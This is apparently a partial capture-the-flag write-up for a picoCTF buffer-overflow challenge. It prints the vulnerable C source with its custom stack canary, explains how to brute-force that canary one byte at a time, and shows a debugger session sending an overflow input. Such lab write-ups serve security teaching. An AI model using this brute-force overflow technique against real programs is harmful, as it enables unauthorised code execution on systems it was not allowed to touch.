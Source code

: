 <https://play.picoctf.org/practice/challenge/260>

```c
#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

char global_canary[CANARY_SIZE];

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}
```

They've used a custom canary to try prevent buffer overflow, it's 4 bytes and checks if its value is the same as at the start of the program. 

```
[~/Desktop] 
$ ./vuln 
Please create 'canary.txt' in this directory with your own debugging canary.

[~/Desktop] 
$ echo "TEST" > canary.txt
```

memcmp() is being used to check if the current canary is the same as the global canary, but since we choose the buffer size, we can brute 1 byte at a time:

```
pwndbg> run
Starting program: /home/connor/Desktop/vuln 
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                                      
[Thread debugging using libthread_db enabled]                                                              
Using host libthread_db library "/usr/lib/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 65                                                               
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT
Ok... Now Where's the Flag?
[Inferior 1 (process 106998) exited normally]
pwndbg> 
pwndbg> run
```